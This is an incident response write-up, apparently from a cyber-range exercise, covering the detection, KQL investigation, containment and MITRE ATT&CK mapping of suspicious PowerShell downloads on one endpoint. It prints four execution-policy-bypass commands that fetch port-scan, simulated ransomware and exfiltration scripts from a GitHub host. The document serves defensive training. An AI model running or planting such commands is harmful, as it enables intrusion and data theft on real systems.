 # Incident Response: Suspicious PowerShell Web Requests

## 🕵️ Detection and Analysis

An incident titled **“kelsier - PowerShell Suspicious Web Request”** was triggered in Microsoft Defender for Endpoint (MDE).  

Upon investigation, the following suspicious PowerShell commands were identified on device **6th-c9300**. The commands executed downloads of four separate scripts from a public GitHub repository:

![Process CommandLine Evidence](../images/powershell-suspicious-web-request-2.png)





```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```



The affected user stated they attempted to install free software around the same time. They observed a black screen for a few seconds, after which “nothing happened.”

**Confirmation of Execution**

Using DeviceProcessEvents in MDE, the investigation confirmed that these downloaded scripts were indeed executed:

```kql
let TargetHostname = "6th-c9300";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```


![Sentinel Analytics Rule Setup](../images/powershell-suspicious-web-request-3.png)




![PowerShell Suspicious Web Request Investigation](../images/powershell-suspicious-web-request-1.png)




**🧪 Malware Analysis Results**

The scripts were escalated to the malware reverse engineering team. Their findings were as follows:

**portscan.ps1** → Conducts an IP range scan for common ports, logging discovered services.

**eicar.ps1** → Generates the EICAR test string to validate AV detection.

**exfiltratedata.ps1** → Simulates data exfiltration by creating fake employee data, compressing it, and uploading to Azure Blob storage.

**pwncrypt.ps1** → Simulates ransomware by encrypting fake Desktop files and generating ransom instructions.




**🛡 Containment, Eradication, and Recovery**

**Containment**: Isolated the machine in Microsoft Defender for Endpoint.

**Eradication**: Ran a full anti-malware scan.

**Recovery**: Once clean, the machine was removed from isolation and returned to production.




**📘 Post-Incident Activities**

User was enrolled in additional cybersecurity awareness training.

The security team upgraded the corporate training package (KnowBe4) and increased training frequency.

Initiated a new policy restricting PowerShell access to essential personnel only, reducing attack surface for script-based threats.



**🔎 MITRE ATT&CK Mapping**

**T1059.001** – Command and Scripting Interpreter: PowerShell

**T1105** – Ingress Tool Transfer (downloading malicious scripts)

**T1560** – Archive Collected Data (simulated in exfiltration script)

**T1486** – Data Encrypted for Impact (simulated ransomware)

**T1046** – Network Service Scanning (port scanning activity)

